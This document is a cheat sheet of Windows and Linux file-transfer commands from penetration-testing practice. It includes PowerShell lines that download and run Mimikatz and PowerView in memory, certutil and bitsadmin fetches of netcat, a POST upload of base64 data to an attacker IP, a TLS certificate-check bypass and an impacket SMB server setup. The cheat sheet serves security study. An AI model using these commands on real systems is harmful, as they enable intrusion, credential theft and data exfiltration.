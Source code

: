 | **Command** | **Description** |
| --------------|-------------------|
| `Invoke-WebRequest https://<IP>/PowerView.ps1 -OutFile PowerView.ps1` | Download a file with PowerShell |
| `IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-Mimikatz.ps1')`  | Execute a file in memory using PowerShell |
| `Invoke-WebRequest -Uri http://<IP>:443 -Method POST -Body $b64` | Upload a file with PowerShell |
| `bitsadmin /transfer n http://<IP>/nc.exe C:\Temp\nc.exe` | Download a file using Bitsadmin |
| `certutil.exe -verifyctl -split -f http://<IP>/nc.exe` | Download a file using Certutil |
| `wget http://<IP>/LinEnum.sh -O /tmp/LinEnum.sh` | Download a file using Wget |
| `curl -o /tmp/LinEnum.sh http://<IP>/LinEnum.sh` | Download a file using cURL |
| `php -r '$file = file_get_contents("https://<IP>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'` | Download a file using PHP |
| `scp C:\Temp\bloodhound.zip user@<IP>:/tmp/bloodhound.zip` | Upload a file using SCP |
| `scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe` | Download a file using SCP |
| `Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"` | Invoke-WebRequest using a Chrome User Agent |
| `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing \| IEX` | There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter `-UseBasicParsing`. |

> Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:  
> `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`

# With SMB

create server
`impacket-smbserver -smb2support share .`

transfer  
`copy \\192.168.220.133\share\nc.exe`

New versions of Windows block unauthenticated guest access  

Create the SMB Server with a Username and Password  
`impacket-smbserver -smb2support share  . -user test -password test`  

Mount the SMB Server with Username and Password  
`net use n: \\192.168.220.133\share /user:test test`  
`copy n:\nc.exe`
